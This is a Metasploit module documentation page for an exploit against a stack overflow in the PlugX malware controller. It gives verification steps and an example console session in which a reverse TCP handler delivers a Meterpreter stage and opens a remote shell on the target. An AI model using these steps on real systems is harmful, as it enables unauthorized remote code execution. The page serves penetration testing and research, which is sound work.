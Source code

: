 ## Vulnerable Application

  This module exploits a stack overflow in the Plug-X Controller when handling a larger than expected message.
  This vulnerability can allow remote code execution however it causes a popup message to be displayed on the target before execution is gained.
  
  A vulnerable version of the software is available here: [PlugX type 1](https://github.com/rapid7/metasploit-framework/files/1243293/9f59a606c57217d98a5eea6846c8113aca07b203e0dcf17877b34a8b2308ade6.zip)

## Verification

  1. Run the application
  2. Start msfconsole
  3. Do: `use exploit/windows/misc/plugx`
  4. Do: `set rhost [ip]`
  5. Do: `set target [target]`
  6. Do: `exploit`
  7. Click OK for the "PeDecodePacket" pop-up on the target
  8. Get a shell

## Scenarios

### Windows XP SP3 with PlugX type 1

```
msf > use exploit/windows/misc/plugx 
msf exploit(plugx) > set rhost 1.2.3.4
rhost => 1.2.3.4
msf exploit(plugx) > set target 1
target => 1
msf exploit(plugx) > set verbose true
verbose => true
msf exploit(plugx) > exploit

[*] Started reverse TCP handler on 1.2.3.99:4444 
[*] 1.2.3.4:13579 - Trying target PlugX Type I...
[*] 1.2.3.4:13579 - waiting for response
[*] Sending stage (956991 bytes) to 1.2.3.4
[*] Meterpreter session 1 opened (1.2.3.99:4444 -> 1.2.3.4:1975) at 2017-09-04 19:53:07 -0400
[*] 1.2.3.4:13579 - Server closed connection

meterpreter > getuid
Server username: WINXP\user
```
